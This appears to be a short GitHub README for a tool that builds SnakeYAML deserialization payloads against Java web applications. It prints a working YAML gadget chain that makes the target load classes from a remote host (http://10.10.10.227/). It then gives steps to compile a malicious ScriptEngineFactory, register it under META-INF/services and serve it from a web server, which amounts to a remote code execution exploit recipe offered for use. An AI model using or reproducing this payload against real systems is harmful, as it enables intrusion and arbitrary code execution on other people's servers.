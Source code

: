 # yaml-parser-payload
payload parser yaml javaweb


A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

-------yaml parser javaweb------------

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.227/"]
  ]]
]

Put the java code you want execute into [AwesomeScriptEngineFactory.java] and compile:

------bash console-----

javac AwesomeScriptEngineFactory.java
folder exploit / 
        META-INF/services/javax.script.ScriptEngineFactory inside file put h1dr0.AwesomeScriptEngineFactory/
        h1dr0/AwesomeScriptEngineFactory.class
Then place the 'AwesomeScriptEngineFactory.class' file in to the web server folder (e.g. h1dr0/AwesomeScriptEngineFactory.class)
